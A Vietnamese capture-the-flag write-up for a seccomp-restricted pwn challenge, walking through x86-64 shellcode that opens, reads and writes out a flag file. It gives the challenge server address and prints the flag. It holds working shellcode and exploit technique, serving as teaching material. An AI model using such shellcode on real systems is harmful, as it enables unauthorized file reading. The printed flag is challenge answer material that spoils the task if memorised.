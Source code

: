 # ⛳ Shellcode

- Description: dễ mà tự viết đi trên trên mạng không có đâu
  - Bắt buộc dùng open, read, write để đọc flag
  - Không cần quan tâm đến seccomp
  - Dùng syscall ngoài open, read, write sẽ bị khóa
  - nc 45.122.249.68 10017
- Hint:
  - Bạn Nhật Trường có một bài blog tương tự bài này trên x86, thử chuyển code sang x86-64 bạn sẽ giải được bài này link: https://drx.home.blog/2019/04/03/pwnable-tw-orw/

## Write-up:

Disassemble hàm main, ở đây ta thấy có hàm **setup_seccomp** sau khi chúng ta input bằng hàm **read@plt**.

```
0x000000000000132f <+122>:   call   0x10f0 <read@plt>
0x0000000000001334 <+127>:   mov    eax,0x0
0x0000000000001339 <+132>:   call   0x1209 <setup_seccomp>
```

Vào xem thử hàm **setup_seccomp** làm gì trên IDA.

![image](https://user-images.githubusercontent.com/48288606/147545255-85432ebe-de11-4b03-99ee-5edfab194115.png)

Theo như đoạn mã giả và tìm kiếm về seccomp (secure computing mode) thì **setup_seccomp** chỉ là một hàm định nghĩa các rule để giới hạn lại và quy định các **system call**. Đại khái, chương trình thực hiện khởi tạo seccomp rule bằng **seccomp_init()**, thêm rule bởi hàm **seccomp_rule_add()** và ta thấy có 3 dòng để set rule cho 3 system call là "read/ write/ open" và dùng **seccomp_load()** để apply các rule vào kernel.<br>
=> Vậy cho nên theo như hint thì thật ra chúng ta không cần xem đoạn này, hint đã gợi ý chỉ được dùng **open, read, write** trong shellcode để đọc flag.

Khi chạy chương trình ta biết được flag nằm trong file "PhaPhaKhongCoDon.txt"
```
Use open, read, write to get flag, flag is in PhaPhaKhongCoDon.txt
```
### Viết shellcode:

Với 3 system call trên, ta dự định sẽ thực hiện lần lượt: open(mở stream đọc file) -> read(đọc dữ liệu từ stream cho trước và đưa vào buffer) -> write(ghi dữ liệu từ buffer ra output stream). Bây giờ ta sẽ xác định các parameter đưa đúng theo quy ước gọi syscall [tại đây](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) (Table x86_64 (64-bit))

Khởi tạo stack, lưu ý trên x86_64 không push trực tiếp một giá trị hằng vào stack được nên phải thông qua thanh ghi

Code:
```
        'mov r8, %s' % hex(u64('.txt\0\0\0\0')),
        'mov r9, %s' % hex(u64('ongCoDon')),
        'mov r10, %s' % hex(u64('PhaPhaKh')),
        'push r8',
        'push r9', 
        'push r10', 
```

Lệnh open() - [Official manual](https://man7.org/linux/man-pages/man2/open.2.html):
- %rax: 0x02
- arg0 (%rdi): const char \*filename .Ở đây mình sẽ đưa chuỗi "PhaPhaKhongCoDon.txt" vào và vì kiến trúc 64bits nên size tối đa là 8 bytes, còn thiếu thì đệm thêm byte NULL vào chuỗi để không ảnh hưởng quá trình gọi syscall
- arg1 (%rsi): int flags. Chế độ cho stream open. Được định nghĩa trong file `/usr/include/asm-generic/fcntl.h` vì hàm **open()** được tạo trong thư viện **fcntl.h**. Mình có thể search để biết các giá trị này nhanh hơn. Do ban đầu đọc manual mình không rõ cách truyền vào mấy flags này nên mới đào sâu vậy 😊. Ở đây mình chỉ đọc (O_RDONLY) nên dùng **0x0**.
```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
```

Code:
```
        'xor rdx, rdx',
        'xor rsi, rsi',
        'mov rdi, rsp',
        'mov rax, 0x2',
        'syscall',
```

- arg2 (%rdx): umode_t mode. (Định nghĩa permission cho file). Ta dùng **0x0** 
- Return value: trả về file descriptor lưu trong rax.

Lệnh read() - [Official manual](https://man7.org/linux/man-pages/man2/read.2.html). Tương tự:
- %rax: 0x00
- arg0 (%rdi): unsigned int fd. Đưa file descriptor từ stream open ở trên vào. 
- arg1 (%rsi): char \*buf. Nhét chuỗi trên vào
- arg2 (%rdx): size_t count. Size của buffer để đọc, cho tùy ý miễn đủ đọc flag.
- Return value: Số lượng byte được đọc thật sự được trả về

Code:
```
        'mov rsi, rsp',
        'mov rdi, rax',  
        'mov rdx, 0x100',
        'mov rax, 0x0',  
        'syscall',
```
Lệnh write() - [Official manual](https://man7.org/linux/man-pages/man2/write.2.html). Tương tự:
- %rax: 0x01
- arg0 (%rdi): unsigned int fd. File descriptor đưa ra ngoài output nên phải dùng stream của STDOUT là **0x1**
- arg1 (%rsi): const char \*buf. Tham số này không quan trọng vì ta đã xác định đưa chuỗi ký tự cần ghi ra ngoài STDOUT stream rồi
- arg2 (%rdx): size_t count

Code:
```
        'mov rdi, 0x1',
        'mov rdx, rax',
        'mov rax, 0x1',
        'syscall'
```

Tham khảo code exploit hoàn chỉnh [tại đây](shellcode.py)


Flag: **Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**
